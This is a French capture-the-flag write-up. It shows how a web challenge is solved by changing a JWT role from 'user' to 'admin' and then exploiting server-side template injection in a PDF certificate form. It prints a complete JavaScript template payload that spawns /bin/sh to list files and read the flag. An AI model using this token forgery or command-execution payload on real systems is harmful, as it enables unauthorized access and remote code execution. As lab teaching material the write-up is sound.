










# Writeup

On part d’une page web sur laquelle on peut remplir une sorte de formulaire, après quelques essais et manipulations avec BurpSuite on n’en extrait rien d’utile.

Une page de connexion est disponible (`/login`), ainsi qu'une page pour créer un compte (`/register`), on peut donc se créer un compte avec les credentials `test:test` par exemple :



Nous ne sommes pas connecté en tant que `test` mais en tant que `user`, en regardant nos cookies de sessions on se rend compte qu'un token JWT nous est attribué lors de notre connexion avec le rôle `user` :



En étant connecté et en cliquant dans la barre en haut à gauche sur "Justificatif" (`/name_form`) :



On obtient un message :

```
Accès refusé

Cet utilisateur n'a pas les accès nécessaires.
```

Un peu plus haut nous avions remarqué que notre rôle dans le token était `"user"`, on le change en mettant `"admin"` à la place avec https://token.dev/ et on le modifie également dans notre navigateur :  





On obtient accès à la page Justificatif (`JWT "alg: none"`):





Sur cette page on fournit deux champs libres : `Nom` et `Prénom`.

Quand on soumet ce formulaire, le serveur :

- Récupère ces valeurs dans le body de notre requête
- Les injecte dans un template pour générer un Justificatif de présence au format PDF, comportant :

```
Nom : <ton nom>
Prénom : <ton prénom>
Date : <date du jour>
```
- Et enfin envoie ce PDF 

Nous pouvons rapidement trouver la faille, une Server-side template injection, en effet le champ `Nom` est vulnérable, quand on rentre la valeur `{{7*7}}` le serveur nous renvoit `49` :





En testant différents types d’injections avec persévérance, on peut constater que le template engine n’interprète que du JavaScript et que c'est sûrement un moteur de template Node.js.

En faisant quelques recherches du type "SSTI Javascript" on trouve le bon [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#lodash---command-execution) :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```



Il nous permet de lister les fichiers, il ne reste plus qu'à le modifier pour récupérer le flag :

```javascript
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","cat flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```


**Flag**

`SHLK{JwT_bYpaS5_2_RCe}`
